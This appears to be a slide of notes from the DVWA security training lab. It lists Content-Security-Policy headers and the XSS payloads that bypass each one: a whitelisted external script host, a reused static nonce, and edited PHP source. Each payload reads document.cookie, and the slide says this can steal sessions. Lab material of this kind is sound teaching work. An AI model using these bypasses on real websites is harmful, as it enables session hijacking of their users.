

# CSP ByPass Payloads
Content-Security-Policy: script-src 'self' https://pastebin.com hastebin.com www.toptal.com example.com code.jquery.com https://ssl.google-analytics.com https://digi.ninja ;
Payload: https://digi.ninja/dvwa/cookie.js -contained-> alert(document.cookie);

Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';
Payload: <script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(document.cookie)</script>

Content-Security-Policy: script-src 'self';
If you can change the php source code, comment out all code except the part that echos "alert(document.cookie)". This can be used to steal sessions. The impossible level does not allow this.